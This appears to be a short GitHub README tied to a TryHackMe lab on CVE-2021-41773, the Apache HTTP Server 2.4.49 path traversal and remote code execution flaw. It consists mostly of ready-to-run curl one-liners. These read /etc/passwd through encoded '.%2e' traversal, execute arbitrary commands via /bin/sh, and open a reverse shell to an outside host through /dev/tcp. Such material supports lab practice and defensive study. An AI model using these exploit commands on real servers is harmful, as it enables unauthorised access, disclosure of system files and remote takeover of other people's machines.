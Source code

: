 # CVE-2021-41773 - Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)

[TryHackMe CVE 2021-41773](https://tryhackme.com/room/cve202141773) is a room contain various versions that are exploitable.

This is just a one liners simplification of the script from [ExploitDB](https://www.exploit-db.com/exploits/50383) 
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; " "http://192.168.213.16/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

CMD=whoami
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $CMD" "http://192.168.213.16/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

[More concise command for Jesus Gavancho](https://github.com/jesusgavancho/TryHackMe_and_HackTheBox/blob/master/CVE-2021-41773.md)
```bash
curl -v 'http://10.10.184.70:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; sh -i >& /dev/tcp/10.10.48.130/8080 0>&1 ' -H "Content-Type: text/plain"
```


## References

[ExploitDB Exploit](https://www.exploit-db.com/exploits/50383) 
[More concise command for Jesus Gavancho](https://github.com/jesusgavancho/TryHackMe_and_HackTheBox/blob/master/CVE-2021-41773.md)
